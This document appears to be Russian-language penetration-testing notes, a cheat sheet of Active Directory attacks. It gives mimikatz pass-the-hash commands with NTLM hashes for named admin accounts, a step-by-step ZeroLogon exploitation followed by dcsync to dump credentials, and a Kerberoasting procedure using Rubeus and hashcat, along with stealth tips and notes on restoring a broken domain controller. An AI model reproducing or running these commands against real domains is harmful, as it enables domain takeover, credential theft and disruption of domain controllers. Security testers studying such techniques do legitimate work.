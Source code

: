# Path-the-Hash
Входные данные:
- требует права для фальсификации токена;

## Запускаем удаленный powershell.
sekurlsa::pth /domain:company.ru /user:kstepanovAdm /ntlm:39aced871bfb9485b15c0ddcd3b456f3 /run:"powershell.exe"

## Меняем пароль пользователя в домене. Пароль должен удовлетворять текущей парольной политике!
sekurlsa::pth /domain:company.ru /user:eborisenkoAdm /ntlm:84a09c7fe2da7625051ed8dbae888073 /run:"net user buhramin Qwerty15 /domain"



# ZeroLogon
Входные данные:
- server 2016;
- машина в домене с позможностью запуска ПО;
- отсутствуют средства защиты, которые нельзя отключить.

Замечанияпо атаке:
- может сломать домен-контроллер (перестал работать RDP к dc);
- достаточно прав обычного пользователя.

1. Попытка провести атаку dcsync.
lsadump::dcsync /domain:company.ru /dc:dc.company.ru /user:krbtgt /authuser:dc$ /authdomain:company.ru /authpassword:"" /authntlm
Естественно, не успех.

2. Проверка возможности эксплуатации данной уязвимости.
lsadump::zerologon /target:dc.company.ru /account:dc$

3. Экслуатация.
lsadump::zerologon /target:dc.company.ru /account:dc$ /exploit

4. Атака dcsync.
lsadump::dcsync /domain:company.ru /dc:dc.company.ru /user:<<<username>>> /authuser:dc$ /authdomain:company.ru /authpassword:"" /authntlm

5. Восстановление пароля машины штатными средствами (https://winitpro.ru/index.php/2014/09/18/vosstanovlenie-doveritelnyx-otnoshenij-bez-perevvoda-v-domen/):
	5.1. Можно проверить, что связи с dc нет, с помощью nltest /sc_verify:<имя_домена>
	5.2. Зайти от локального администратора, я включил встроенного и заходил от него (надо проверить другие варианты).
	5.3. Есть много команд и командлетов для сброса пароля, но у меня сработал только этот:
		Reset-ComputerMachinePassword -Server dc -Credential company\Adm
	5.4. В статье говорят, что перезагружаться не надо. У меня так не сработало. RDP ожил только после перезагрузки.
	5.5. Повторно проверить наличие связи с dc (см. пункт 5.1).
	
Есть скрипт restorepassword.py (https://github.com/dirkjanm/CVE-2020-1472)


# Kerberoasting

Входные данные:
	- имеется доступ к машине в домене с учетной записью пользователя.
	
Инструменты:
	1. Поиск уязвимых SPN (setspn, rubeus и много других вариантов).

Замечания:	
	- Rubeus по умолчанию собирается под 3.5 framework, а на Windows 10 дефолтный 4.5. Можно просто пересобрать, дабы ничего на атакованную машину лишнего не ставить.
	
Достоинства:
	- скрытность:
		+ запрос TGS это легитимное действие пользователя.
		+ по сравнению c online подбором пароля сервисной учетной записи в том, что после выгрузке TGS обращение NTLM-хеша проводится в оффлайне;
		
Вопросы:
	- почему данная конфигурация возможна? Например, SQL Server 2014 самостоятельно создает сервисные записи с нормальными паролями.

Примеры использования:
	- PT (https://youtu.be/WE8JjboUtDY?t=1962)
	
Порядок дейстия для rubeus-а:
	1. #rubeus kerberoast - выводит найденные TGS REP в консоль.
	   #rubeus kerberoast /outfile:<outputFilePath> - выводит найденные TGS REP в файл
	2. Подбор по словарю john (не получилось) и hashcat.
	

